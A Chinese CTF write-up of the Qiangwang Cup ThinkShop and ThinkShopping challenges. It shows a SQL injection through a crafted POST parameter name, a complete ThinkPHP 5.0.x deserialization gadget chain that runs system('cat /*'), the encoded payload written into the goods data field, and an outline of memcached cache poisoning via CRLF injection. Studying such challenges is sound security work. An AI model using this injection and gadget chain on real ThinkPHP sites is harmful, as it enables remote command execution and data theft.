# 再谈强网ThinkShop

> **来源**: https://forum.butian.net/share/2859  
> **文章ID**: 2859

---

前言
==

这里把强网的ThinkShop再抓出来好好说说，因为这应该算是比较有意思的题目了(没做出来当时(就第一题有思路了) )，这里先@datou爷，参考了他写的WP，我哭死咋这么强

‍

ThinkShop
=========

给了镜像，直接查看源码

其实只要关注这些即可

​

登录
--

发现是存在Admin的路由的，说明是需要登录的，因为给了docker所以直接去docker的mysql中去查看账号密码即可

​

‍

​

但是直接输入admin 123456死活登录不进去

那就只能去查看登录逻辑了

​

```php
        $adminData = Db::table('admin')
            ->cache(true, $Expire)
            ->find($username);
```

这段代码的意思就是从`admin`​表中通过`find`​方法查询`$username`​并且把查询的结果放入缓存当中，那么在这个地方我们就要注意了，TP的`find`​方法是有一些限制的

​

所以也就解释了为什么一开始一直输入 admin 123456不可行原因

‍

注入反序列化
------

在登录成功之前其实我们也可以发现，在mysql中还存在一个表叫`goods`​

​

发现他的`data`​这个字段中的数据是很长的base64

​

一看就知道是序列化的base64的值，所以其实在这里就有暗示可能是要打反序列化了(但是我们如何把我们序列化的字节序列放入`data`​字段呢)

‍

在这里有一个小技巧，就是如果是TP的docker的话可以给他开启`debug`​模式然后并且把sql语句进行打印出来可以更好的查看sql语句的执行

修改文件在： `/var/www/html/application/config.php`​ 修改为`'app_debug'              => true`​

‍

那么我们继续想如何把我们的字节序列加入数据库当中的`data`​字段中呢，我们可以想到是sql注入，所以我们现在就要去找一个sql注入的点(其实他这里的参数都没有进行sql的过滤并且都是直接拼接的所以基本上都可以直接注入)但是又因为咱需要更新他的`data`​的内容所以直接从`update`​这个方法中去注入即可

​

‍

可以在这里在docker当中加入`echo $sql;`​来查看sql语句，那么我们在哪里触发这个`updatedata`​ 呢，可以找到

​

然后再往上找

​

在往上找

​

发现是进行商品更新的地方，那么我们登录之后就可以看到商品登录的接口了

然后我们增加多一个`key`​来进行注入

```sql
id=132&name=test&price=100.00&on_sale_time=2023-12-19T11:11&image=test&data=1&data`%3D'qqq'where`id`%3D132%23=test
```

这里有个要注意的点，在POST传参中如果要把我们的 <span style="font-weight: bold;" data-type="strong">=</span> 写入到数据库中记得URL编码一下写成`%3D`​否则直接写 <span style="font-weight: bold;" data-type="strong">=</span> 是不会当成sql语句的

​

那么现在可以修改`data`​的值了就可以写入序列化的字符序列了

那么其实分析到现在我们还没有找触发反序列化的入口在哪里，因为从sql当中知道是`Data`​字段，那么去找上传这个的参数的地方即可

我们可以从`goods_edit.html`​中找到以下代码

```html
<textarea class="form-control" id="data" name="data" rows="3" required>{php}use app\index\model\Goods;$view=new Goods();echo $view->arrayToMarkdown(unserialize(base64_decode($goods['data'])));{/php}</textarea>
```

那么我们来看看这个`$goods['data']`​是否可控

​

仔细查看`markdownToArray`​方法，其实可以发现只要不是`markdown`​就没有啥操作了

​

‍

然后就是把我们传入的内容直接作为数组返回而已

‍

但是这里还有个小问题 就是从刚开始对`data`​数据的解密和以下代码可以发现，他的序列化的值还得多包一层数组来进行绕过

​

‍

最后就是引用下文的5.0.x的反序列化文件并且通过数组包裹后的exp

[ThinkPHP5.0.x 反序列化\_5.0.21 thinkphp 反序列化-CSDN博客](https://blog.csdn.net/LYJ20010728/article/details/119793016)

这里抄了一波大头爷的exp

```php
<?php
namespace think\process\pipes{
    use think\model\Pivot;
    ini_set('display_errors',1);
    class Windows{
        private $files = [];
        public function __construct($function,$parameter)
        {
            $this->files = [new Pivot($function,$parameter)];
        }
    }
    $a = array(new Windows('system','cat /*'));
    echo bin2hex(base64_encode(serialize($a)));
}
namespace think{
    abstract class Model
    {}
}
namespace think\model{
    use think\Model;
    use think\console\Output;
    class Pivot extends Model
    {
        protected $append = [];
        protected $error;
        public $parent;
        public function __construct($function,$parameter)
        {
            $this->append['jelly'] = 'getError';
            $this->error = new relation\BelongsTo($function,$parameter);
            $this->parent = new Output($function,$parameter);
        }
    }
    abstract class Relation
    {}
}
namespace think\model\relation{
    use think\db\Query;
    use think\model\Relation;
    abstract class OneToOne extends Relation
    {}
    class BelongsTo extends OneToOne
    {
        protected $selfRelation;
        protected $query;
        protected $bindAttr = [];
        public function __construct($function,$parameter)
        {
            $this->selfRelation = false;
            $this->query = new Query($function,$parameter);
            $this->bindAttr = [''];
        }
    }
}
namespace think\db{
    use think\console\Output;
    class Query
    {
        protected $model;
        public function __construct($function,$parameter)
        {
            $this->model = new Output($function,$parameter);
        }
    }
}
namespace think\console{
    use think\session\driver\Memcache;
    class Output
    {
        protected $styles = [];
        private $handle;
        public function __construct($function,$parameter)
        {
            $this->styles = ['getAttr'];
            $this->handle = new Memcache($function,$parameter);
        }
    }
}
namespace think\session\driver{
    use think\cache\driver\Memcached;
    class Memcache
    {
        protected $handler = null;
        protected $config  = [
            'expire'       => '',
            'session_name' => '',
        ];
        public function __construct($function,$parameter)
        {
            $this->handler = new Memcached($function,$parameter);
        }
    }
}
namespace think\cache\driver{
    use think\Request;
    class Memcached
    {
        protected $handler;
        protected $options = [];
        protected $tag;
        public function __construct($function,$parameter)
        {
            // pop链中需要prefix存在，否则报错
            $this->options = ['prefix'   => 'jelly/'];
            $this->tag = true;
            $this->handler = new Request($function,$parameter);
        }
    }
}
namespace think{
    class Request
    {
        protected $get     = [];
        protected $filter;
        public function __construct($function,$parameter)
        {
            $this->filter = $function;
            $this->get = ["jelly"=>$parameter];
        }
    }
}
```

‍

然后通过刚才的注入报文写入`data`​数据即可

```sql
id=1&name=test&price=100.00&on_sale_time=2023-12-19T11:11&image=test&data=1&data`%3D'YToxOntpOjA7TzoyNzoidGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzIjoxOntzOjM0OiIAdGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzAGZpbGVzIjthOjE6e2k6MDtPOjE3OiJ0aGlua1xtb2RlbFxQaXZvdCI6Mzp7czo5OiIAKgBhcHBlbmQiO2E6MTp7czo1OiJqZWxseSI7czo4OiJnZXRFcnJvciI7fXM6ODoiACoAZXJyb3IiO086MzA6InRoaW5rXG1vZGVsXHJlbGF0aW9uXEJlbG9uZ3NUbyI6Mzp7czoxNToiACoAc2VsZlJlbGF0aW9uIjtiOjA7czo4OiIAKgBxdWVyeSI7TzoxNDoidGhpbmtcZGJcUXVlcnkiOjE6e3M6ODoiACoAbW9kZWwiO086MjA6InRoaW5rXGNvbnNvbGVcT3V0cHV0IjoyOntzOjk6IgAqAHN0eWxlcyI7YToxOntpOjA7czo3OiJnZXRBdHRyIjt9czoyODoiAHRoaW5rXGNvbnNvbGVcT3V0cHV0AGhhbmRsZSI7TzoyOToidGhpbmtcc2Vzc2lvblxkcml2ZXJcTWVtY2FjaGUiOjI6e3M6MTA6IgAqAGhhbmRsZXIiO086Mjg6InRoaW5rXGNhY2hlXGRyaXZlclxNZW1jYWNoZWQiOjM6e3M6MTA6IgAqAGhhbmRsZXIiO086MTM6InRoaW5rXFJlcXVlc3QiOjI6e3M6NjoiACoAZ2V0IjthOjE6e3M6NToiamVsbHkiO3M6NjoiY2F0IC8qIjt9czo5OiIAKgBmaWx0ZXIiO3M6Njoic3lzdGVtIjt9czoxMDoiACoAb3B0aW9ucyI7YToxOntzOjY6InByZWZpeCI7czo2OiJqZWxseS8iO31zOjY6IgAqAHRhZyI7YjoxO31zOjk6IgAqAGNvbmZpZyI7YToyOntzOjY6ImV4cGlyZSI7czowOiIiO3M6MTI6InNlc3Npb25fbmFtZSI7czowOiIiO319fX1zOjExOiIAKgBiaW5kQXR0ciI7YToxOntpOjA7czowOiIiO319czo2OiJwYXJlbnQiO086MjA6InRoaW5rXGNvbnNvbGVcT3V0cHV0IjoyOntzOjk6IgAqAHN0eWxlcyI7YToxOntpOjA7czo3OiJnZXRBdHRyIjt9czoyODoiAHRoaW5rXGNvbnNvbGVcT3V0cHV0AGhhbmRsZSI7TzoyOToidGhpbmtcc2Vzc2lvblxkcml2ZXJcTWVtY2FjaGUiOjI6e3M6MTA6IgAqAGhhbmRsZXIiO086Mjg6InRoaW5rXGNhY2hlXGRyaXZlclxNZW1jYWNoZWQiOjM6e3M6MTA6IgAqAGhhbmRsZXIiO086MTM6InRoaW5rXFJlcXVlc3QiOjI6e3M6NjoiACoAZ2V0IjthOjE6e3M6NToiamVsbHkiO3M6NjoiY2F0IC8qIjt9czo5OiIAKgBmaWx0ZXIiO3M6Njoic3lzdGVtIjt9czoxMDoiACoAb3B0aW9ucyI7YToxOntzOjY6InByZWZpeCI7czo2OiJqZWxseS8iO31zOjY6IgAqAHRhZyI7YjoxO31zOjk6IgAqAGNvbmZpZyI7YToyOntzOjY6ImV4cGlyZSI7czowOiIiO3M6MTI6InNlc3Npb25fbmFtZSI7czowOiIiO319fX19fX0%3D'where`id`%3D1%23=test
```

​

ThinkShopping
=============

这个题做了一些修改

​

修改完之后我们先看看修改的内容 其实可以发现他把入口的反序列化点给删除了相反代替的就是echo了一个`data`​的值

​

‍

再来查看一下他根目录起的环境是什么

​

前面是常规的apache+mysql+php 但是在最后一行发现了一个这个

```bash
memcached -d -m 50 -p 11211 -u root
```

那么其实是存在考核点的

‍

最后(看wp)还是有其他修改过的痕迹

admin的表里面为空了

​

mysql的`secure_file_priv`​为空了

​

‍

那么前边的sql的点依旧没有删，所以思路就是 进入后台并且通过sql去使用`load_file`​去读取根目录的flag，但如何进入后台呢？前面提到，容器在启动的时候使用了`memcached`​,其实这里也是我一开始对`thinkshop`​有点不太理解的地方(这里贴上跟@up哥的聊天记录)

其实这里确实就是这样，`find(xx)`​会先去`cache`​获取缓存，断点跟进下`find`​

​

发现是以`think:shop.admin|username`​ 这种形式去获取我们的值，那也就是说，如果我们能伪造一个缓存为admin admin 那么就可以登录后台了吧，由于出题人配置了cache，所以会将数据缓存到`memcached`​中

那么如何控制缓存的值呢？memcached存在CRLF注入漏洞，具体可参考下方文章：

- <https://www.freebuf.com/vuls/328384.html>

